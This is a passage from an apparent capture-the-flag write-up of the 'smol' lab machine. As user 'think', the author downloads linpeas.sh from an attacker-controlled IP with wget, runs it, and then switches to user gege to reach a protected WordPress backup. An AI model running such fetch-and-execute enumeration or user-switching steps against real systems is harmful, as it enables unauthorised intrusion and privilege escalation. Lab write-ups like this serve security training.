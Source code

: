 ```

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

think@smol:~$
```

-> And now, we're in as think. Let's bring out the big guns and transfer over linpeas. 

```
think@smol:/tmp$ wget 10.8.35.149:80/linpeas.sh
--2025-06-25 12:58:47--  http://10.8.35.149/linpeas.sh
Connecting to 10.8.35.149:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 840139 (820K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh            100%[=======================>] 820.45K   843KB/s    in 1.0s    

2025-06-25 12:58:48 (843 KB/s) - ‘linpeas.sh’ saved [840139/840139]

think@smol:/tmp$ chmod +x linpeas.sh 
think@smol:/tmp$ ./linpeas.sh
```

![](attachments/Pasted%20image%2020250625170149.png)

-> After about 30 minutes of trying, I concluded that I should look into other areas and come back to this later if I still can't find anything

-> At this point, I still couldn't find much of anything. Until I went back to the home directory and into gege directory. The file 'wordpress.old.zip' looked intriguing so I tried extracting it but was denied permission. That was until I did this:

```
think@smol:/home/gege$ ls -la
total 31532
drwxr-x--- 2 gege internal     4096 Aug 18  2023 .
drwxr-xr-x 6 root root         4096 Aug 16  2023 ..
lrwxrwxrwx 1 root root            9 Aug 18  2023 .bash_history -> /dev/null
-rw-r--r-- 1 gege gege          220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 gege gege         3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 gege gege          807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root            9 Aug 18  2023 .viminfo -> /dev/null
-rwxr-x--- 1 root gege     32266546 Aug 16  2023 wordpress.old.zip
think@smol:/home/gege$ cd wordpress.old.zip
-bash: cd: wordpress.old.zip: Not a directory
think@smol:/home/gege$ su gege
gege@smol:~$ 
```
